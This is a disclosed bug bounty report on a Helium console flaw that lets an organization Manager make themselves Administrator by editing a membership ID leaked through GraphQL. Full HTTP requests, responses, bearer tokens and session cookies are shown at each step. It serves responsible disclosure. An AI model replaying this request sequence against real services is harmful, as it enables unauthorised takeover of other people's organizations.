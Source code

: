 # Organization Takeover

## Report Details
- **Report ID**: 809816
- **URL**: https://hackerone.com/reports/809816
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-03-03T18:24:21.869Z
- **Disclosed**: 2020-05-27T20:51:57.485Z

## Reporter
- **Username**: azraelsec
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: helium

## Vulnerability Information
Hello @helium,
The **console.helium.com** application doesn't correctly manage the `/membership/` resources and allows a user to privilege escalate an organization of which he's part of just modifying it's role.

# Steps to reproduce the bug

1) Let's make two user accounts:
- `azraelsec@wearehackerone.com` **[A]**
- `███` **[B]** (*this is actually my personal account and can be deleted*)

**Initial Context**: azraelsec is Administrator of the `hackerone` organization while federicogerardi94 is Administrator of the **testhackerone** organization.
*Goal*: azraelsec becomes Administrator of **testhackerone**.

2) [B] invites [A] to take part in his **testhackerone** organization with the role of **Manager**

3) [A] switches to **testhackerone** organization and makes a graphql query to leak his **Manager** membership's id (using graphql it's only possible to see the memberships of the current organization):
```
POST /graphql HTTP/1.1
Host: console.helium.com
Connection: close
Content-Length: 488
accept: */*
Sec-Fetch-Dest: empty
authorization: Bearer eyJhbGciOiJIUzUxMiIsInR5cCI6IkpXVCJ9.eyJhdWQiOiJjb25zb2xlIiwiZXhwIjoxNTgzMzQxMTQ0LCJpYXQiOjE1ODMyNTQ3NDQsImlzcyI6ImNvbnNvbGUiLCJqdGkiOiIzNzQ4ZmJkYS1iMjhiLTRlOWYtOThiMy00ZTUzMGRlYWEwNmMiLCJuYmYiOjE1ODMyNTQ3NDMsIm9yZ2FuaXphdGlvbiI6IjkxNmE3NmJmLWM3ZmEtNDkxYi1hZjAyLTY3NGY5YWYwZTFhMyIsIm9yZ2FuaXphdGlvbl9uYW1lIjoidGVzdGhhY2tlcm9uZSIsInN1YiI6IjU1OTQ2ZDBlLTBhOTAtNGQ0ZC05ZGI4LTEyMjM2MmY1Nzc1NiIsInR5cCI6ImFjY2VzcyJ9.-1VwG72225yPkZ0BimNSw_DFURRlT8Wh-AcAuDXgJFEEfiPduEdWcwwxY6-oQEHx8ILFUlxQYdbduYiTA-D79Q
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.122 Safari/537.36
content-type: application/json
Origin: https://console.helium.com
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Referer: https://console.helium.com/users
Accept-Encoding: gzip, deflate
Accept-Language: it-IT,it;q=0.9,en-GB;q=0.8,en;q=0.7,en-US;q=0.6
Cookie: _ga=GA1.2.356414044.1583245182; _gid=GA1.2.514054915.1583245182; ajs_anonymous_id=%22b4ba3101-c694-4846-baa8-7c8327764369%22; ajs_group_id=null; ajs_user_id=1; intercom-id-ghj6l8hv=253a4abc-6b70-4491-9b80-b8b69c070546; intercom-session-ghj6l8hv=; _console_key=SFMyNTY.g3QAAAAA.vg9m7JVv2pR0cST_2fykHvzkeAyEyq8PdhkZ0fBMMiM; amplitude_id_2b23c37c10c54590bf3f2ba705df0be6helium.com=eyJkZXZpY2VJZCI6IjI4OGY3ZTJiLTRjNTgtNDEyOC1hNWUwLTliYjY0OTRkMzU2N1IiLCJ1c2VySWQiOiI1NTk0NmQwZS0wYTkwLTRkNGQtOWRiOC0xMjIzNjJmNTc3NTYiLCJvcHRPdXQiOmZhbHNlLCJzZXNzaW9uSWQiOjE1ODMyNDYzMzc1MzksImxhc3RFdmVudFRpbWUiOjE1ODMyNTQ3NDg0OTgsImV2ZW50SWQiOjE5MywiaWRlbnRpZnlJZCI6NDEsInNlcXVlbmNlTnVtYmVyIjoyMzR9

{"operationName":"PaginatedMembershipsQuery","variables":{"page":1,"pageSize":10},"query":"query PaginatedMembershipsQuery($page: Int, $pageSize: Int) {\n  memberships(page: $page, pageSize: $pageSize) {\n    entries {\n      ...MembershipFragment\n      __typename\n    }\n    totalEntries\n    totalPages\n    pageSize\n    pageNumber\n    __typename\n  }\n}\n\nfragment MembershipFragment on Membership {\n  id\n  email\n  role\n  inserted_at\n  two_factor_enabled\n  __typename\n}\n"}
```
```
HTTP/1.1 200 OK
Connection: close
Cache-Control: max-age=0, private, must-revalidate
Content-Length: 514
Content-Type: application/json; charset=utf-8
Date: Tue, 03 Mar 2020 16:59:27 GMT
Server: Cowboy
Strict-Transport-Security: max-age=31536000
Via: 1.1 vegur

{"data":{"memberships":{"__typename":"PaginatedMemberships","entries":[{"__typename":"Membership","email":"████████","id":"512c8188-7008-49ce-a140-3538696e8c2c","inserted_at":"2020-03-03T16:09:37","role":"admin","two_factor_enabled":false},{"__typename":"Membership","email":"azraelsec@wearehackerone.com","id":"bc96332e-c6b4-4728-b35e-8145eea0996a","inserted_at":"2020-03-03T16:42:49","role":"manager","two_factor_enabled":false}],"pageNumber":1,"pageSize":10,"totalEntries":2,"totalPages":1}}}
```
**NOTE**: [A] is a member of **testhackerone** with the role of **Manager** using the membership id `bc96332e-c6b4-4728-b35e-8145eea0996a`

3) [A] switches back to his **hackerone** organization (this will provide him a new full-privileged token) and sends a PUT request on the /membership/ resource pointing out the membership's id leaked before, changing his role to `admin`:
```
PUT /api/memberships/bc96332e-c6b4-4728-b35e-8145eea0996a HTTP/1.1
Host: console.helium.com
Connection: close
Content-Length: 31
accept: */*
Sec-Fetch-Dest: empty
authorization: Bearer eyJhbGciOiJIUzUxMiIsInR5cCI6IkpXVCJ9.eyJhdWQiOiJjb25zb2xlIiwiZXhwIjoxNTgzMzQxNTA0LCJpYXQiOjE1ODMyNTUxMDQsImlzcyI6ImNvbnNvbGUiLCJqdGkiOiJkODIxNzAwYS0xMGE5LTQwOGItYjc3ZC01OGY5ODY2ZWFkZmUiLCJuYmYiOjE1ODMyNTUxMDMsIm9yZ2FuaXphdGlvbiI6IjZjNmM4YzhhLTQ5ZmUtNGJlZi1hMDBjLWZkOTliZWUzOWIwZCIsIm9yZ2FuaXphdGlvbl9uYW1lIjoiaGFja2Vyb25lIiwic3ViIjoiNTU5NDZkMGUtMGE5MC00ZDRkLTlkYjgtMTIyMzYyZjU3NzU2IiwidHlwIjoiYWNjZXNzIn0.r13Aj4TXYzLYJ7clq9gl_SbpdSnVZpUsj0rFtgIMMeUXAE-44iiReL8bffEy4414L6Ess-dOH5L7MFiT55GAqw
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.122 Safari/537.36
content-type: application/json
Origin: https://console.helium.com
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Referer: https://console.helium.com/users
Accept-Encoding: gzip, deflate
Accept-Language: it-IT,it;q=0.9,en-GB;q=0.8,en;q=0.7,en-US;q=0.6
Cookie: _ga=GA1.2.356414044.1583245182; _gid=GA1.2.514054915.1583245182; ajs_anonymous_id=%22b4ba3101-c694-4846-baa8-7c8327764369%22; ajs_group_id=null; ajs_user_id=1; intercom-id-ghj6l8hv=253a4abc-6b70-4491-9b80-b8b69c070546; intercom-session-ghj6l8hv=; _console_key=SFMyNTY.g3QAAAAA.vg9m7JVv2pR0cST_2fykHvzkeAyEyq8PdhkZ0fBMMiM; amplitude_id_2b23c37c10c54590bf3f2ba705df0be6helium.com=eyJkZXZpY2VJZCI6IjI4OGY3ZTJiLTRjNTgtNDEyOC1hNWUwLTliYjY0OTRkMzU2N1IiLCJ1c2VySWQiOiI1NTk0NmQwZS0wYTkwLTRkNGQtOWRiOC0xMjIzNjJmNTc3NTYiLCJvcHRPdXQiOmZhbHNlLCJzZXNzaW9uSWQiOjE1ODMyNDYzMzc1MzksImxhc3RFdmVudFRpbWUiOjE1ODMyNTEwNzEwNDEsImV2ZW50SWQiOjEzOSwiaWRlbnRpZnlJZCI6MjksInNlcXVlbmNlTnVtYmVyIjoxNjh9

{"membership":{"role":"admin"}}
```

Since the back-end only checks if the requesting account has is an admin in its actual organization' scope but not if the membership that he's modifying is related to this, the request works, allowing [A] to becoming **Administrator** of **hackeronetest** organization:
```
HTTP/1.1 200 OK
Connection: close
Cache-Control: max-age=0, private, must-revalidate
Content-Length: 154
Content-Type: application/json; charset=utf-8
Date: Tue, 03 Mar 2020 17:10:01 GMT
Message: User role updated successfully
Server: Cowboy
Strict-Transport-Security: max-age=31536000
Via: 1.1 vegur

{"email":"azraelsec@wearehackerone.com","id":"bc96332e-c6b4-4728-b35e-8145eea0996a","joined_at":"2020-03-03T16:42:49","role":"admin","type":"memberships"}
```

**NOTE**: [A] has to be sure not to switch to **testhackerone**!! To exploit the vulnerability [A] needs to remain inside the organization of which he is Administrator (a POST call to `/api/organizations/6c6c8c8a-49fe-4bef-a00c-fd99bee39b0d/switch` will invalidate the Bearer token and provide a new one that has the correct privileges).

4) Now [A] can switch again organization to **hackeronetest** and administrate it as Administrator:
```
POST /graphql HTTP/1.1
Host: console.helium.com
Connection: close
Content-Length: 488
accept: */*
Sec-Fetch-Dest: empty
authorization: Bearer eyJhbGciOiJIUzUxMiIsInR5cCI6IkpXVCJ9.eyJhdWQiOiJjb25zb2xlIiwiZXhwIjoxNTgzMzQyMDk5LCJpYXQiOjE1ODMyNTU2OTksImlzcyI6ImNvbnNvbGUiLCJqdGkiOiI0YWM5ZDk2OC1hMGYwLTQ5MDgtODZmMi0wNTE3ZjE3OTE0NjMiLCJuYmYiOjE1ODMyNTU2OTgsIm9yZ2FuaXphdGlvbiI6IjkxNmE3NmJmLWM3ZmEtNDkxYi1hZjAyLTY3NGY5YWYwZTFhMyIsIm9yZ2FuaXphdGlvbl9uYW1lIjoidGVzdGhhY2tlcm9uZSIsInN1YiI6IjU1OTQ2ZDBlLTBhOTAtNGQ0ZC05ZGI4LTEyMjM2MmY1Nzc1NiIsInR5cCI6ImFjY2VzcyJ9.rShCG6pW0Pjkd_dd8KTslyKPU38jrzhMrn39dkxdIqhePsCFx4FsEmNSKXTNm2zD02dPZNkp_N_FGtcen8kaeQ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.122 Safari/537.36
content-type: application/json
Origin: https://console.helium.com
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Referer: https://console.helium.com/users
Accept-Encoding: gzip, deflate
Accept-Language: it-IT,it;q=0.9,en-GB;q=0.8,en;q=0.7,en-US;q=0.6
Cookie: _ga=GA1.2.356414044.1583245182; _gid=GA1.2.514054915.1583245182; ajs_anonymous_id=%22b4ba3101-c694-4846-baa8-7c8327764369%22; ajs_group_id=null; ajs_user_id=1; intercom-id-ghj6l8hv=253a4abc-6b70-4491-9b80-b8b69c070546; intercom-session-ghj6l8hv=; _console_key=SFMyNTY.g3QAAAAA.vg9m7JVv2pR0cST_2fykHvzkeAyEyq8PdhkZ0fBMMiM; amplitude_id_2b23c37c10c54590bf3f2ba705df0be6helium.com=eyJkZXZpY2VJZCI6IjI4OGY3ZTJiLTRjNTgtNDEyOC1hNWUwLTliYjY0OTRkMzU2N1IiLCJ1c2VySWQiOiI1NTk0NmQwZS0wYTkwLTRkNGQtOWRiOC0xMjIzNjJmNTc3NTYiLCJvcHRPdXQiOmZhbHNlLCJzZXNzaW9uSWQiOjE1ODMyNDYzMzc1MzksImxhc3RFdmVudFRpbWUiOjE1ODMyNTU3MDI0MTAsImV2ZW50SWQiOjIwMywiaWRlbnRpZnlJZCI6NDMsInNlcXVlbmNlTnVtYmVyIjoyNDZ9

{"operationName":"PaginatedMembershipsQuery","variables":{"page":1,"pageSize":10},"query":"query PaginatedMembershipsQuery($page: Int, $pageSize: Int) {\n  memberships(page: $page, pageSize: $pageSize) {\n    entries {\n      ...MembershipFragment\n      __typename\n    }\n    totalEntries\n    totalPages\n    pageSize\n    pageNumber\n    __typename\n  }\n}\n\nfragment MembershipFragment on Membership {\n  id\n  email\n  role\n  inserted_at\n  two_factor_enabled\n  __typename\n}\n"}
```
```
HTTP/1.1 200 OK
Connection: close
Cache-Control: max-age=0, private, must-revalidate
Content-Length: 512
Content-Type: application/json; charset=utf-8
Date: Tue, 03 Mar 2020 17:17:12 GMT
Server: Cowboy
Strict-Transport-Security: max-age=31536000
Via: 1.1 vegur

{"data":{"memberships":{"__typename":"PaginatedMemberships","entries":[{"__typename":"Membership","email":"█████████","id":"512c8188-7008-49ce-a140-3538696e8c2c","inserted_at":"2020-03-03T16:09:37","role":"admin","two_factor_enabled":false},{"__typename":"Membership","email":"azraelsec@wearehackerone.com","id":"bc96332e-c6b4-4728-b35e-8145eea0996a","inserted_at":"2020-03-03T16:42:49","role":"admin","two_factor_enabled":false}],"pageNumber":1,"pageSize":10,"totalEntries":2,"totalPages":1}}}
```

## Impact

This vulnerability lets a user with low privileges to escalate and to **become Administrator of an Organization** of which was a simple Manager, deleting the original Administrator and to full control it

## Attachments
No attachments
